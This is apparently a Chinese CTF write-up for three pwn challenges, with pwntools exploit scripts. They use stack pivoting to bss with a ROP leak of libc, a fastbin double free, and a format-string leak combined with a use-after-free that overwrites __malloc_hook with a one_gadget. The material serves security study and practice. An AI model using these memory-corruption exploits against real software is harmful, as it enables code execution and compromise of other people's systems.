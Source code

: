 ### borrowstack

用 `leave_ret` 栈迁移到 bss 段，需要注意的是栈从高地址向低地址生长，需要留足够的 `offset` 确保迁移之后填的 payload 不会覆盖到下面的 got 表。我直接把 payload 长度加起来留了一些余量作为 `offset`，实际上这里的 `offset` 甚至可以爆破出来。
```python
leave_ret = 0x400699
bank = 0x601080
pop_rdi = 0x400703
offset = 0xa0

payload = flat('a'*0x60,bank+offset,leave_ret)
sa('want\n',payload)
payload = flat('a'*offset,bank+offset,pop_rdi,elf.got['puts'],elf.plt['puts'],elf.sym['main'])
sa('now!\n',payload)

base = uu64(r(6)) - libc.sym['puts']
leak('base',base)
one = base + 0x4526a

payload = flat('a'*0x60,'a'*8,one)
sa('want\n',payload)
sa('now!\n','a')
```

### some_thing_exceting

每次申请创建三个堆块，其中一个是结构体指针两个是字符串。而释放时没有置 NULL，利用 double free 就可以修改其中一个字符串 chunk 的 fd 指针，指向已经在 bss 段上的 flag。不过对应位置的伪造 `size` 字段为 `0x60`，因此为了通过 fastbin 检查需要使用 0x50 的字符串 chunk。

```python
flag = 0x6020a8
add(0x60,0x50)
add(0x60,0x50)
add(0x60,0x50)
free(0)
free(1)
free(0)
add(0x50,0x50,p64(flag-0x10))
add(0x50,0x50)
show(1)
```

### some_thing_interesting

和上题不同的是没有 flag 在 bss 段了，但是多出了一个检查 code 的选项，该函数内存在格式化字符串漏洞。测出偏移为 17，泄露 libc。

随后，由于本题的 `edit` 函数是可以用的，我们不需要 double free 了，直接 uaf 就可以修改 `__malloc_hook` 为 `one_gadget` 了。

```python
code = 'OreOOrereOOreO'
sla(':',code+'%17$p')
sla(':','0')
ru(code)
base = int(ru('\n'),16) - 0x20830
leak('base',base)

add(0x60,0x60)
add(0x60,0x60)
free(1)
free(2)
edit(1,p64(base+libc.sym['__malloc_hook']-0x23))
add(0x60,0x60)
add(0x60,0x60)
edit(4,'a'*0x13+p64(base+0xf1147))

sla(':','1')
```